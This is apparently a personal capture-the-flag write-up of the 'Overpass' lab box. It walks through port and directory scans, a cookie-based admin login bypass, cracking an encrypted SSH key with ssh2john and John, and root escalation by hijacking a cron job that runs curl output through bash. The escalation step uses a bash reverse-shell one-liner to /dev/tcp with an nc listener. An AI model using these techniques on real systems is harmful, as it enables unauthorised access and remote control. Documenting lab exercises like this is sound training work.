 #CTF 

## Recon

Beginning with [[Nmap]] we have 
```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-26 21:30 BST
Nmap scan report for ip-10-10-79-144.eu-west-1.compute.internal (10.10.79.144)
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (EdDSA)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
MAC Address: 02:89:64:FE:4A:C3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.53 seconds

```

And also [[Gobuster]] 

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.79.144
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/05/26 21:31:18 Starting gobuster
===============================================================
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
===============================================================
2023/05/26 21:31:18 Finished
===============================================================

And also with /usr/share/wordlists/dirbuster/directory-list-1.0.txt

/**http%3A%2F%2Fwww (Status: 301)
/**http%3A%2F%2Fad (Status: 301)
```

-  Aboutus
	Has some text and staff.
-  Admin
	Has a user pass form
-  Css
	Has 2 css files, login.css and main.css
-  Downloads
	Precompiled binaries of Overpass
	    Windows x86-64
	    Linux x86-64
	    MacOS x86-64
	    FreeBSD x86-64
	    OpenBSD x86-64
	Have Golang installed? Need a binary for 32bit systems? Want to build your own binary to make sure it's safe? Grab the source code here
	    Source Code
	    Build Script
-  Img
	Has three images

## Next steps

I navigated to the /downloads page and Downloaded  Source Code and Build Script
```
overpass.go: C source, ASCII text, with CRLF line terminators]
buildscript.sh: ASCII text
```


Also downloaded Linux x86-64
```
overpassLinux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```
It is an executable so I give it `chmod +x` and run it.
And returns
```
open /root/.overpass: no such file or directory
Failed to open or read file
Continuing with new password file.
Welcome to Overpass
Options:
1	Retrieve Password For Service
2	Set or Update Password For Service
3	Delete Password For Service
4	Retrieve All Passwords
5	Exit
Choose an option:	
```


Nothing here. I get help online and I go to /admin.
I open console and navigate to network. There is a login.js that gets called. There is a interesting main function

```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Here else suggests that id the statusOrCookie has any value then we get in.
So I F12 and go to Storage. I create a new cookie , name it `SessionToken` and with Path `/`
I refresh the tab and get in! I am pressented with this:

```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----


```

I download [[John The Ripper#Identifying Hashes]] but couldn't solve it.
So I searched on the internet how to crack RSA private keys and I found that I need to turn them first in john-readable form with ssh2john.py. So I did it with:
`python3 /opt/john/ssh2john.py id_rsa > id_rsa.hash`
And then I run john with id_rsa.hash and got the password.
So we have a username probably <font color="#FFFF00" > James or james </font> and a password <font color="#FFFF00" > james13 </font>
So lets try to connect!


## Attack

I will try to connect in the ssh service with the creds we found above.
Did a little search on the internet. First I have to add some permissions to the id_rsa file:
`chmod 600 id_rsa` , and after that we can login like so:
`ssh -i id_rsa james@[ip]` and giving the password.

Inside I find two files.
- user.txt
	Its my first flag.

- todo.txt
```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```


Doing `ls -la` and I find a .overpass file. Cating that and I get
`,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`
Using an online decryptor of Rot47 and I get
`[{"name":"System","pass":"saydrawnlyingpicture"}]`

From [[Privilate Escalation#Linux#Privilege Escalation Cron Jobs]]
I cat `/ect/crontab` and I find
`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash `

Lets see the /etc/hosts
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

I need to change the overpass.thm to my ip. 
On my local machine I make the path for the script.
So `mkdir /downloads/scr` and inside I make `buildscript.sh`
I nano it and I type
`bash -c "bash -i >& /dev/tcp/[my ip]/1337 0>&1"`

I opened a connection with
`nc -lnvp 1337`
and in another console I make a server
`python3 -m http.server 80`

These connected and I found my flag